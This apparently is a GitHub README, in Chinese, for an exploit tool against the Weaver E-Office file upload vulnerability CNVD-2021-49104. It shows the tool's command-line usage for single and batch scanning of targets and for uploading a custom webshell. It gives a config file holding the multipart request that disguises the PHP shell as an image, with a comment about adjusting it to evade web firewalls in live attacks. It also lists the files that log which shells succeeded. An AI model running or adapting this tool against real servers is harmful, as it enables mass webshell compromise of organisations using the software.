


## 泛微E-Office文件上传漏洞(CNVD-2021-49104) ##
参考链接:https://mp.weixin.qq.com/s/uAhcQ8O1HKHZ6JLZ_pmNzg  
upload.py help
```text
Example:
python upload.py -u <url> #检测是否存在文件上传漏洞
python upload.py -f <file> #批量检测是否存在文件上传漏洞
python upload.py -u <url> -p <webshell_path> -s RaidEnMei #自定义webshell上传，定义检测shell关键字
python upload.py -f <file> -p <webshell_path> -s RaidEnMei #自定义webshell上传，定义检测shell关键字 (批量检测)


Usage: upload.py [options]

Options:
  -h, --help  show this help message and exit
  -u URL      要检测的url
  -p PATH     自定义上传文件shell文件路径
  -f FILE     批量检测
  -s STR      shell上传成功后检测是否成功的关键字
```

config.py  
(把请求数据包拆开单独写出来是，为了方便到时候实战遇见waf方便配置绕过)
```python
uploadfilename="test.php" #文件上传名称
filename="test.php" #默认上传内容从当前目录的test.php读取
header={"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding":"gzip, deflate",
        "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Accept-Language":"zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6",
        "Cookie":"LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348",
        "Content-Type":"multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4"}

data='''--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="{filename}"
Content-Type: image/jpeg

{shell}

--e64bdf16c554bbc109cecef6451c26a4--'''
```

产生文件:
```text
shell.txt - 文件上传成功并且访问shell是成功的
shell_failure.txt - 文件上传成功，访问shell是失败的
upload_failure.txt - 文件上传失败记录
```



